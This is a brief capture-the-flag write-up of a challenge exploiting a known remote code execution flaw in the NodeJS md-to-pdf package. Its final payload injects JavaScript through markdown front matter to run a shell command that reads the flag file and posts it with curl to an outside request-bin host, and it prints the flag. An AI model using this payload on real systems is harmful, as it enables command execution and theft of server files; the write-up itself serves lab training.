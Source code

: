 ## Skills involved: JavaScript command injection RCE

In NodeJS applications, the list of packages used is listed in `package.json`. With [Snyk](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) we can confirm a *remote code execution* (RCE) vulnerability with the `md-to-pdf` package.

You can send the flag to your domain, alternatively you can copy the flag file to the static folder and view it there.

Pre-CTF guide: in bash script, the output from one command can be piped (transferred) to another with the | symbol

My final payload:
```
---js
`${require("child_process").execSync("cat ../flag.txt | curl -X POST --data-binary @- https://requestbin.io/********")}`
---RCE OKAY
```

**Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**
